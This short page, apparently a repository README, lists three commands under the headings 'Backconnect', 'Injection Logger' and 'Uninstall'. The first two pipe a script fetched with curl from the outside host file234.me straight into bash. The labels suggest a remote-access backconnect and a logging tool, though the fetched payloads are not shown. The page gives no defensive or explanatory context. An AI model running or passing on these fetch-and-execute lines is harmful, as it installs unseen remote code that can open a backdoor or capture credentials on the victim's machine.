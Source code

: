 Backconnect
======================
bash -c "$(curl -fsSL https://file234.me/z)"

Injection Logger
======================
bash -c "$(curl -fsSL https://file234.me/self)"

Uninstall
=====================
pkill defunct
